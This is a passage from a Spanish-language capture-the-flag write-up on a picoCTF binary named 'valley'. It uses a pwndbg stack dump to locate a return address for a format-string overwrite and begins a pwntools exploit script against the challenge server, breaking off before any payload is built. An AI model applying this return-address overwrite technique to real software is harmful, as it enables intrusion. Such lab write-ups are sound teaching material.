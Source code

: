 La función `mtstr_payload` de pwntools permite modificar el valor de una variable en el stack, para usarla necesitamos 2 cosas:

* La posición de un parámetro controlable en el stack (LO TENEMOS)
* La dirección de la variable a modificar (AUN NO LO TENEMOS)

Nos queda averiguar cual es la dirección donde se guarda la dirección de retorno, que es la que tiene por valor la dirección en el puesto 21 del stack.

Vamos a usar el comando `telescope` para darle un vistazo a los elementos del stack:

```c
You heard in the distance: 0x7fffffffdca0

pwndbg> telescope $rsp 30
00:0000│ rsp 0x7fffffffdc20 ◂— 0x40
01:0008│-068 0x7fffffffdc28 ◂— 0xa
02:0010│-060 0x7fffffffdc30 ◂— 0x8000
03:0018│-058 0x7fffffffdc38 ◂— 0
04:0020│-050 0x7fffffffdc40 ◂— 0xb700000006
05:0028│-048 0x7fffffffdc48 ◂— 0
... ↓        7 skipped
0d:0068│-008 0x7fffffffdc88 —▸ 0x7ffff7fe4780 (dl_main) ◂— push rbp
0e:0070│ rbp 0x7fffffffdc90 —▸ 0x7fffffffdca0 ◂— 1
0f:0078│+008 0x7fffffffdc98 —▸ 0x555555555413 (main+18) ◂— mov eax, 0
10:0080│+010 0x7fffffffdca0 ◂— 1 // Aquí
```

Ojo a esto! La dirección leakeada del stack corresponde a la dirección a 16 bytes del rbp. Entre la dirección de nuestro leak y la dirección del RBP hay una dirección entremedias. Ahora viene lo importante, que es esa dirección?

Cuando un programa en C llama a una función lo primero que sucede es un push del RIP y luego un push del RBP, sabiendo esto podemos saber que la dirección entre nuestro leak y el RBP es la `` dirección de retorno` `` o , lo que es lo mismo, la dirección de retorno es:

```c
dirección de nuestro leak del stack - 8 bytes
```

Ahora que ya sabemos la dirección de la variable que queremos sobrescribir podemos preparar el script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./valley")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b main
piebase
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
    else:
        r = remote("shape-facility.picoctf.net", 49337)

    return r


```